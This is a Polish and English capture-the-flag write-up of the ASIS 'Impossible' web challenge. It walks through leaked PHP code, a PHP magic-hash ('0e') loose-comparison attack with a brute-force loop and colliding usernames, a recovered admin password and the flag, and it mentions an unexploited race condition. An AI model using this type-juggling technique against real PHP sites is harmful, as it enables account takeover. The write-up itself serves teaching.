 ## Impossible (web, 225p)

### PL
[ENG](#eng-version)

Według opisu zadania, flaga jest schowana na stronie http://impossible.asis-ctf.ir/
Możemy tam zakładać konta, ale muszą one zostać aktywowane żeby się zalogować.
Jak zwykle zaczynamy od ściągnięcia `robots.txt` aby sprawdzić co autorzy strony chcą przed nami ukryć.
http://impossible.asis-ctf.ir/robots.txt ma tylko jeden wpis:

    User-agent: *
    Disallow: /backup

Pod http://impossible.asis-ctf.ir/backup/ znajdziemy zrzut całej strony. Znacząco ułatwia nam to zadanie.

W `functions.php` znajduje się mini-implementacja bazy danych:

	function username_exist($username) {
		$data = file_get_contents('../users.dat');
		$users = explode("\n", $data);
		foreach ($users as $key => $value) {
			$user_data = explode(",", $value);
			if ($user_data[2] == '1' && base64_encode($username) == $user_data[0]) {
				return true;
			}
		}
		return false;
	}

	function add_user($username, $email, $password) {
		file_put_contents("../users.dat", base64_encode($username) . "," . base64_encode($email) . ",0\n", $flag = FILE_APPEND);
		file_put_contents("../passwords.dat", md5($username) . "," . base64_encode($password) . "\n", $flag = FILE_APPEND);
	}

	function get_user($username) {
		$data = file_get_contents('../passwords.dat');
		$passwords = explode("\n", $data);
		foreach ($passwords as $key => $value) {
			$user_data = explode(",", $value);
			if (md5($username) == $user_data[0]) {
				return array($username, base64_decode($user_data[1]));
			}
		}
		return array("", "");
	}

`register.php` umożliwia nam stworzenie nowego konta - o ile nie istnieje już jakieś o tej samej nazwie:
	
	$check = preg_match("/^[a-zA-Z0-9]+$/", $_POST['username']);
	if (!$check) {
	} elseif (username_exist($_POST['username'])) {
		$result = 1;
		$title = "Registration Failed";
	} else {
		add_user($_POST['username'], $_POST['email'], $_POST['password']);
		$user_info = get_user($_POST['username']);
		$result = 2;
		$title = "Registration Complete";
	}

`index.php` umożliwia zalogowanie się - o ile użytkownik jest aktywny i ma pasujące hasło:

	if(username_exist($_POST['username'])) {
		$user_info = get_user($_POST['username']);
		if ($user_info[1] == $_POST['password']) {
			$login = true;
		}
	}

Nasz atak wykorzystuje kilka luk:

1. W `passwords.dat` nazwy użytkownika są zahaszowane MD5 ale hasła są tylko zakodowane base64.
2. `register.php` wypisuje hasło nowo utworzonego użytkownika. Albo, dokładniej, hasło pierwszego użytkownika którego nazwa ma takie samo md5.
3. Skróty md5 są porównywane operatorem `==`. Jeżeli porównywane łańcuchy są poprawnymi liczbami, zostaną porównane jako liczby.
4. Dziwnym zbiegiem okoliczności aktywny użytkownik z takim numerycznym md5 już istnieje w bazie: `md5("adm2salwg") == "0e004561083131340065739640281486"`

`0e004561083131340065739640281486` po przekonwertowaniu na liczbę jest równe 0 (w notacji matematycznej 0*10<sup>4561083131340065739640281486</sup>). Potrzebna nam będzie inna nazwa, której md5 jest również równe 0 po skonwertowaniu na liczbę.
Nawet w PHP, przeszukując kolejne liczby dostaniemy wynik po zaledwie kilku minutach:

	$p = md5("adm2salwg");
	$i = 0;
	while(true) {
		if(md5("".$i) == $p) {
			echo $i;
		}
		$i++;
	}

Pierwsze rozwiązanie: `240610708` nie zadziałało. Użytkownik z taką nazwą już istniał w bazie. Drugie rozwiązanie: `314282422` zadziałało bez problemu.
Wystarczy stworzyć nowe konto o nazwie: `314282422` a skrypt odeśle nam hasło użytkownika `adm2salwg`:

    1W@ewes$%rq0

Po zalogowaniu jako `adm2salwg`, pojawia się flaga:

	ASIS{d9fb4932eb4c45aa793301174033dff9}

Skrypty posiadają jeszcze jedną, potencjalnie użyteczną, lukę. `file_put_contents` nie jest operacją atomową.
Przez rejestrację wielu użytkowników z długimi nazwami i emailami równolegle, powinno się dać utworzyć niepoprawne wpisy w obu plikach.
Nie udało nam się tego jednak wykorzystać.

### ENG version

The flag is supposed to be hidden here: http://impossible.asis-ctf.ir/
It looks like we can add new accounts, but they must be activated before logging in.
As usual, we start by examining `robots.txt` to find what we are not supposed to look at.
http://impossible.asis-ctf.ir/robots.txt contains just two lines:

    User-agent: *
    Disallow: /backup

http://impossible.asis-ctf.ir/backup/ contains dump of the whole site which is going to make the whole thing a lot easier.

`functions.php` contains an ad-hoc implementation of a database:

	function username_exist($username) {
		$data = file_get_contents('../users.dat');
		$users = explode("\n", $data);
		foreach ($users as $key => $value) {
			$user_data = explode(",", $value);
			if ($user_data[2] == '1' && base64_encode($username) == $user_data[0]) {
				return true;
			}
		}
		return false;
	}

	function add_user($username, $email, $password) {
		file_put_contents("../users.dat", base64_encode($username) . "," . base64_encode($email) . ",0\n", $flag = FILE_APPEND);
		file_put_contents("../passwords.dat", md5($username) . "," . base64_encode($password) . "\n", $flag = FILE_APPEND);
	}

	function get_user($username) {
		$data = file_get_contents('../passwords.dat');
		$passwords = explode("\n", $data);
		foreach ($passwords as $key => $value) {
			$user_data = explode(",", $value);
			if (md5($username) == $user_data[0]) {
				return array($username, base64_decode($user_data[1]));
			}
		}
		return array("", "");
	}

`register.php` allows you to add new account, unless one already exists and is active:
	
	$check = preg_match("/^[a-zA-Z0-9]+$/", $_POST['username']);
	if (!$check) {
	} elseif (username_exist($_POST['username'])) {
		$result = 1;
		$title = "Registration Failed";
	} else {
		add_user($_POST['username'], $_POST['email'], $_POST['password']);
		$user_info = get_user($_POST['username']);
		$result = 2;
		$title = "Registration Complete";
	}

`index.php` allows you to login, if user is active and has matching password:

	if(username_exist($_POST['username'])) {
		$user_info = get_user($_POST['username']);
		if ($user_info[1] == $_POST['password']) {
			$login = true;
		}
	}

Our exploit leverages several issues in those scripts.

1. `passwords.dat` contains md5 sums of user names but passwords are base64 encoded.
2. `register.php` will echo your password back to you. Or, actually, password of first user whose name has the same md5 as yours.
3. md5s are compared using == operator. If compared strings are valid numbers, they will be parsed first.
4. By strange coincidence active user with such numeric md5 already exists in the database: `md5("adm2salwg") == "0e004561083131340065739640281486"`

`0e004561083131340065739640281486` parses to number 0. We just need a different user name which md5 also parses to 0.
Brute forcing that, even in PHP, only takes a couple of minutes.

	$p = md5("adm2salwg");
	$i = 0;
	while(true) {
		if(md5("".$i) == $p) {
			echo $i;
		}
		$i++;
	}

First solution: `240610708` didn't work. There already was an account with that name. But the second one: `314282422` worked fine.
All you have to do is create account with user name: `314282422` and script will echo you `adm2salwg`'s password:

    1W@ewes$%rq0

After logging in as `adm2salwg`, flag is displayed:

	ASIS{d9fb4932eb4c45aa793301174033dff9}

There is one more potentially critical issue in those scripts. `file_put_contents` is not atomic.
By registering a lot of users with long names and emails, it should be possible to create bogus entries in both databases.
We weren't able to exploit it though.